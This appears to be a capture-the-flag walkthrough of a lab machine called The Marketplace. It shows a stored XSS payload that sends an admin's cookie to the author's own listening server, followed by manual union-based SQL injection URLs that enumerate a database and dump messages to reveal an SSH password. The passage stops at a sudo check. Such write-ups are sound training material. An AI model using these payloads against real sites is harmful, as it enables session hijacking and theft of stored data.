 # The Marketplace

### The Marketplace
First create an account on the webpage (`test:test`), next step is to exploit a stored XSS vulnerability to steal michael's (the admin) cookie. The payload I used for XSS is `<script>new Image().src="http://10.11.127.156/steal.php?cookie=" + document.cookie;</script>`, if I open a python webserver on port 80 I get my own cookie. 
Luckily there's a button that allows me to report the listing to an admin, to make sure that his browser will view the XSS.<br />
![image](https://github.com/user-attachments/assets/8995c8e8-ec3c-4da0-b2fc-59ab16d5227d)<br />
So I report the listing and get the admin token on my webserver! The next step is to put it in the `cookie` variable from the developer's tools:<br />
![image](https://github.com/user-attachments/assets/5f76a337-1fb5-4c8e-9c44-baad24d55b4f)<br />
And now I have access to the `/admin` panel and got the first flag:<br />
![image](https://github.com/user-attachments/assets/4d42d3c0-14ca-4f8f-ad9a-eef41e8c8612)<br />
Now I need to get foothold on the machine. In the admin panel, I can select the "profile" of a user, and the URL becomes, for example, `/admin?user=1`. If I try to perform some SQL injection, I get this error: <br />
![image](https://github.com/user-attachments/assets/c53068ec-cd09-4f2e-b39f-6d4802b06d51)<br />
SQLMAP doesn't work, probably because there's some WAF that periodically changes michael's cookie. I need to exploit this SQL injection manually. First of all I need to know the number of columns of the table this query is about. After some enumeration the number of columns is `4`, because the payload that doesn't trigger an error is `?user=0 union select 1,2,3,4 -- -`:<br />
![Screenshot 2025-04-10 130639](https://github.com/user-attachments/assets/b250b695-0529-4b38-833b-a39a6eea8abf)<br />
The user `0` doesn't exist, so it should give an error, however it doesn't because it returns the output of the second select we injected. The fact that this second select doesn't trigger any error means that the number of columns is exactly 4, and the web app was wrongly developed to show the output of the query, no metter what query. Now, how can I exploit this to get more information? I can use the table `information_schema`. This is a table that contains information about databases saved in this DB. To get the name of the other database besides `information_schema`, I used the following payload

    http://10.10.2.204/admin?user=0%20union%20select%20schema_name,schema_name,3,4%20from%20information_schema.schemata%20WHERE%20schema_name%20!=%20%27information_schema%27--%20-

![image](https://github.com/user-attachments/assets/72936a1b-2721-41a1-9d28-0fa58ee91be2)<br />
So now I know that the DB is called `marketplace`. Now I want to know what tables are in this database, to do that I'll use the following payload: 

    10.10.2.204/admin?user=0 UNION SELECT table_name, table_name, null, null FROM information_schema.tables WHERE table_schema = 'marketplace' LIMIT 1 OFFSET 0-- -
This will print the first table only:<br />
![image](https://github.com/user-attachments/assets/de96fc29-46b6-40b8-a1f3-2ee235ced79d)<br />
So one table is `items`. Let's find another table:

    http://10.10.2.204/admin?user=0%20UNION%20SELECT%20table_name,%20table_name,%20null,%20null%20FROM%20information_schema.tables%20WHERE%20table_schema%20=%20%27marketplace%27%20LIMIT%201%20OFFSET%201--%20-
The offset is now 1, and I get a different table name: <br />
![image](https://github.com/user-attachments/assets/7186b438-c1f6-49c0-9935-55f293da9b6c)<br />
So the second table is `messages`. I keep doing this just incrementing the offset and find also the table `users`.
Now I want to drop the contents of the tables. For example I'll take the table `messages`. I need to first find the names of the columns, and I'll use a similar technique as before, using LIMIT and OFFSET: <br />

    http://10.10.2.204/admin?user=0%20UNION%20SELECT%20column_name,%20null,%20null,%20null%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%27messages%27%20AND%20table_schema%20=%20%27marketplace%27%20LIMIT%201%20OFFSET%202--%20-
![image](https://github.com/user-attachments/assets/caf30a59-e011-44ff-8d59-6c3a5d57d59f)<br />
By using this payload and just changing the offset, I find the following column names: `user_from`, `user_to`, `message_content`, `is_read`, `id`. Finally, the following payload shows all the `message_content`s in the DB, and I find a password: 

    http://10.10.2.204/admin?user=0%20UNION%20SELECT%20NULL,%20message_content,%20NULL,%20NULL%20FROM%20messages%20--
![image](https://github.com/user-attachments/assets/101a956e-2237-47e0-b78a-e2cf14fed096)<br />
Now I can log into jake's ssh account and get the first flag.
Now if I run `sudo -l` I get this: <br />
![image](https://github.com/user-attachments/assets/b05f403e-9d07-4c9f-a6d1-98cc8cbec752)<br />






